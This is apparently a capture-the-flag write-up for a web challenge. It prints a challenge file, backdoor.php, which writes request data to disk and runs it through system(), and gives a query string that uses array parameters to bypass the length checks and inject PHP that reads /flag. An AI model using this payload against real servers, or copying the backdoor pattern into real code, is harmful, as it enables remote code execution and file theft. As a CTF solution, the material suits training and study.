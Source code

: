 ### web2


`glob://backdoor_*.php`挨个爆
![](attachments/Pasted%20image%2020231104123757.png)

backdoor.php

```php
<?php  
highlight_file(__FILE__);  
error_reporting(0);  
  
if(isset($_GET['username'])){    $sandbox = '/var/www/html/sandbox/'.md5("5050f6511ffb64e1914be4ca8b9d585c".$_GET['username']).'/';    mkdir($sandbox);    chdir($sandbox);  
      
    if(isset($_GET['title'])&&isset($_GET['data'])){        $data = $_GET['data'];        $title= $_GET['title'];  
        if (strlen($data)>5||strlen($title)>3){  
            die("no!no!no!");  
        }        file_put_contents($sandbox.$title,$data);  
  
        if (strlen(file_get_contents($title)) <= 10) {            system('php '.$sandbox.$title);  
        }  
        else{            system('rm '.$sandbox.$title);  
            die("no!no!no!");  
        }  
  
    }  
    else if (isset($_GET['reset'])) {        system('/bin/rm -rf ' . $sandbox);  
    }  
}  
?>
```

数组绕过

`?username=wum0nster&data[]=<?php system('cat /flag');?>&title[]=wum0nster.php`
